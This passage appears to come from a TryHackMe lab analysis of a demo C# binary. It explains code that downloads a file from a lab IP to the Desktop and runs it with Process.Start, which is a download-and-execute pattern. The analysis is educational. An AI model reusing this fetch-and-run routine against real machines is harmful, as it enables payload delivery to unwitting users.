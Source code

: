 ```csharp
Console.WriteLine("Hello THM DEMO Binary");
```

It then uses the [Sleep](https://learn.microsoft.com/en-us/dotnet/api/system.threading.thread.sleep?view=net-8.0) method to wait for 5 seconds.

```csharp
Thread.Sleep(5000);
```

Then, it assigns a value to two string variables: address and text, the first one with a URL accessing a PNG file, and the second one with a file name on the user's Desktop named **thm-demo.png**.

```csharp
string address = "http://10.10.10.10/img/tryhackme_connect.png";
string text = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.Desktop), "thm-demo.png");
```

Then, it will try to connect to the URL on the **address** variable and save the content to a file on the Desktop using the [WebClient class](https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-8.0), and it will then execute the downloaded file path assigned to the **text** variable using the [Process class](https://learn.microsoft.com/en-us/dotnet/api/system.diagnostics.process?view=net-8.0) and the [Start method](https://learn.microsoft.com/en-us/dotnet/api/system.diagnostics.process.start?view=net-8.0#system-diagnostics-process-start(system-string)), as displayed below.

```csharp
using (WebClient webClient = new WebClient())
	{
		try
		{
			Console.WriteLine("Downloading file...");
			webClient.DownloadFile(address, text);
			Console.WriteLine("File downloaded to: " + text);
			Process.Start(new ProcessStartInfo(text)
			{
				UseShellExecute = true
			});
			Console.WriteLine("Image opened successfully.");
		}
		catch (Exception ex)
		{
			Console.WriteLine("An error occurred: " + ex.Message);
		}
	}
```

Finally, it prints the message "**Bye Bye, leaving THM DEMO Binary**" again to the console and waits for 5 seconds using the **Sleep** method before closing.

```csharp
	Console.WriteLine("By bye leaving THM Demo Binary");
	Thread.Sleep(5000);
```
